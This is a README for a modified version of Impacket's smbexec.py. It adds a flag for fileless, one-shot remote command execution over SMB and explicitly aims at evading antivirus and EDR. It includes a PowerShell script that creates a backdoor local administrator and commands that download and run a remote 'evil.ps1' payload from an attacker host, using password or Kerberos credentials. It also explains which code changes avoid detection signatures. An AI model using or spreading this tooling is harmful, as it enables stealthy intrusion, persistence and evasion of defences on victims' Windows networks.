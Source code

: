 Modified SMB Exec
========

This is a minimal modification of Impacket’s smbexec.py that adds support for a new flag:

```
--exec-cmd "<command>"
```

Purpose
========
The tool executes a single command remotely via Service Control Manager (SCM) over SMB (port 445) without writing any files to disk.

Key Changes
========
- Adds an --exec-cmd option to run a one-liner directly.
- Uses SCM over RPC for execution, similar to the original smbexec, but avoids the batch file creation step.
- Helps with AV evasion by keeping execution fileless.
- Still uses the same underlying Impacket framework and authentication methods.

Example Usage
========

Host a powershell script that adds a local administrator on the target machine

```
$Username = "fakeadmin"
$Password = "Password01"
$SecurePassword = ConvertTo-SecureString $Password -AsPlainText -Force
New-LocalUser -Name $Username -Password $SecurePassword -FullName "Fake Admin" -Description "Fake Admin" -PasswordNeverExpires
Add-LocalGroupMember -Group "Administrators" -Member $Username
```

Call the powershell script 
```
 python3 smbexec.py  ./administrator:Password01@target-host --exec-cmd='cmd.exe /c powershell.exe iex(iwr http://attackerIP:8888/evil.ps1 -usebasicparsing)' 
```

Using Kerberos

```
python3 smbexec.py -k -no-pass domain.local/admin@target-host --exec-cmd='cmd.exe /Q /c powershell.exe iex(iwr http://attackerIP:8888/evil.ps1 -usebasicparsing)' 
```
❓ Why
========
This modified version of smbexec.py is designed for stealthy, fileless command execution using only SMB (port 445) ideal for NTLM relay scenarios or restricted environments where other ports (e.g., 135, 139) are blocked and AV detection is a concern.

In the original implementation, command execution works by:

Constructing a batch file path:
```
self.__batchFile = '%TEMP%\\' + BATCH_FILENAME
```
Preparing the shell command using %COMSPEC% (typically cmd.exe) and redirection:
```
self.__shell = '%COMSPEC% /Q /c '
command = self.__shell + 'echo ' + data + ' ^> ' + self.__output + ' 2^>^&1 > ' + self.__batchFile
command += ' & ' + self.__shell + self.__batchFile
command += ' & del ' + self.__batchFile
```

Writing the command to disk, executing it, then reading the output file:
```
self.__output = '\\127.0.0.1\\' + self.__share + '\\' + OUTPUT_FILENAME
```
This method:

- Creates temp files (.bat, output.txt) on the target
- Uses file redirection (>, 2>&1)
- Is heavily signatured and easily caught by AV/EDR tools


The modified SMBexec does the following:
========

The execution logic skips batch/output file creation entirely. Instead:
The command passed via --exec-cmd is used directly as the service binary path:
```
lpBinaryPathName = "cmd.exe /Q /c powershell.exe  ..."

```
This command is passed to hRCreateServiceW() like so:
```
scmr.hRCreateServiceW(self.__scmr, ..., lpBinaryPathName=command, ...)
```

✅ Result:

- No disk artifacts
- No output redirection or readback
- No %TEMP%, %COMSPEC%, or file paths involved
- Pure in-memory, one-shot execution via SCM over SMB
